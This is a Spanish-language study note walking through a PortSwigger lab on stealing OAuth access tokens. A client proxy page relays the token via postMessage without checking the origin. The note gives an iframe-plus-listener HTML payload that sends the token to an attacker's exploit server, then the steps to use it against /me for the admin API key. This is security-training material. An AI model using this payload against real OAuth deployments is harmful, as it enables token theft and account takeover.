

---
aliases:
  - OAuth 005 - Steal token via proxy page
  - postMessage token exfil
tags:
  - vuln/oauth
  - example
  - portswigger
---

# 005 — Robo de `access_token` por proxy page (`postMessage`)

> Lab: [Stealing OAuth access tokens via a proxy page](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page) · **Expert** · Teoría → [[vulnerabilities/026-oauth/oauth#B.2 — web_message response mode|entry point B.2]] · [[vulnerabilities/026-oauth/labs/README|labs]]

## Qué muestra
El `redirect_uri` está validado **exacto** (sólo el callback del cliente) → no hay open redirect que sirva. Pero una **página del propio cliente** recibe el fragment y lo **reemite por `postMessage` sin validar el `origin`**. El atacante **iframea** el flujo OAuth desde su exploit server, la proxy page le manda el token por `message`, y un listener lo exfiltra.

## Diagrama



## Por qué funciona
- Con `redirect_uri` **exacto**, el token sólo puede aterrizar en la página legítima del cliente. Pero esa página **confía en cualquier padre**: hace `postMessage(..., '*')` en vez de fijar un `targetOrigin`.
- Al iframear esa página desde tu dominio, **vos sos el padre** → recibís el `message` con el token.
- Con el token pegás al `/me` (resource server) y sacás la API key.

## Cómo explotarlo (paso a paso)
1. Identificá la **proxy page** del cliente que hace `postMessage` del fragment (mirá el JS del callback / de la página de comentarios).
2. En el exploit server serví:
   ```html
   <iframe src="https://OAUTH-ID.oauth-server.net/auth?client_id=CLIENT_ID&redirect_uri=https://LAB-ID.web-security-academy.net/oauth-callback&response_type=token&nonce=123&scope=openid%20profile%20email"></iframe>
   <script>
   window.addEventListener('message', function(e){
     new Image().src = 'https://EXPLOIT.exploit-server.net/?'+encodeURIComponent(e.data.data);
   }, false);
   </script>
   ```
3. **Deliver to victim** → en tu access log llega el fragment con `access_token`.
4. `GET /me` con `Authorization: Bearer ADMIN_TOKEN` → **API key** del admin → submit.

## Verificación
- El fragment con el token aparece en el access log; el Bearer contra `/me` devuelve datos del admin.

## Detalles que se pasan por alto
- La raíz es **`postMessage` sin `targetOrigin`** en el cliente (web messaging inseguro), no el `redirect_uri`.
- Puede requerir `response_mode=web_message` según cómo entregue el token el OAuth service.
- Es la evolución del 004: cuando el `redirect_uri` es demasiado estricto para el open redirect, buscás **una página que filtre el fragment**.
